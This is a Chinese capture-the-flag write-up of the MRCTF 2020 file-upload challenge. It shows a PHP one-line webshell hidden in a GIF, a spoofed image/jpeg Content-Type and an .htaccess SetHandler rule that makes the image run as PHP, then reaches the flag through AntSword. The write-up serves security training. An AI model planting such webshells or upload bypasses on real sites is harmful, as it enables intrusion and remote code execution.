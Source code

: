 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - 文件上传
  - 一句话木马
  - .htaccess
---
```


# \[MRCTF 2020\] 你传你🐎呢

## 前置工作

文件上传题我想来推荐直接用 Burp Suite 拦截请求，一个一个放行过去

![](https://p.sda1.dev/13/598c88e8b736eca43607236571592283/image.png)

选一个经常用的图片木马 `a.gif`，直接上传，发现只有当把文件类型修改成 `image/jpeg` 的时候才能够被放行，否则都是一句 `我扌your problem?`，讲真，出这个题的人有点抽象

```http
Content-Disposition: form-data; name="uploaded"; filename="a.gif"
Content-Type: image/jpeg

GIF89a?
<script language='php'>@eval($_POST['attack']);</script>
```

再之后我们把后缀名改成可被 PHP 执行的，比如 `.php`，`.phtml` 等，不论是大小写还是别名都行不通，说明这个题目得用其他方法，即使用 `.htaccess` 配置文件使其能够将我们的图片文件作为 PHP 文件执行

## .htaccess 改造

我们自己写一个 .htaccess 文件，将这个文件传上去，当然传的时候别忘了把 `Content-Type` 改成 `image/jpeg`，他只认 `jpeg`，但我们这次很显然就能够绕过对于 `.php` 的判断了

```xml
<FilesMatch "a.gif">
    SetHandler application/x-httpd-php
</FilesMatch>
```

此时访问 `/upload/3ac75d11b42dc586a891e7d538521f24/a.gif`，发现屏幕上已经出现了 `GIF89a?`，说明我们的图片木马已经被当成 PHP 文件执行了

## 攻入靶机

用蚁剑操作，这是基本操作了，不多赘述，进入后直接打进根目录，发现 Flag 文件，最终结果为 `flag{1762a205-9062-4cfb-acac-1d02f1a5b952}`